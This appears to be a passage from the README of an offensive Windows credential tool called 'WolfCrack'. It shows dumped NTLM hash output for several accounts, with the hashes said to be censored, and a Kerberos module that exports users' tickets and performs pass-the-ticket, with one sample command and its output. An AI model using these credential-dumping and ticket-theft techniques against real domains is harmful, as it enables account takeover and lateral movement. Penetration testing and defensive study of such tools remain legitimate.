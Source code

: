 ```
Rid: 502
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: ansible admin
Rid: 1104
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: KALI
Rid: 1105
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: ubuntu
Rid: 1149
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: yuval weber
Rid: 1152
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: WEBWEB
Rid: 1153
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: het dsa
Rid: 1154
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111
```
**The hashes above was censored for privacy reasons.**

## kerberos
This module is for manipulating kerberos related stuffs.
##### Features:
1) show the tickets of all the users on the current server (include computer account) and export them to file if the argument is specified.
2) pass the ticket (using another people ticket and inject it to your own session).
3) purging your own tickets.
4) showing your current tickets.

### list
lists all the kerberos tickets of users (and computer account) on the server anf if specified also export them to files.
##### Arguments:
1) export \[**optional**\]
```
WolfCrack # kerberos::list
[*] Successfuly impersonated
--------------------------------------------------------------------------------------
----------------------------


UserName              : WEBERDC$
Domain                : WEBER
LogonId               : 0x2c068
UserSid               : S-1-5-18
AuthenticationPackage : Kerberos
LogonType             : Batch
LogonTime             : 10/30/2020 2:58:45 AM
LogonServerDnsDomain  : WEBER.COM
UserPrincipalName     : 

[*]Enumerated  1 tickets

```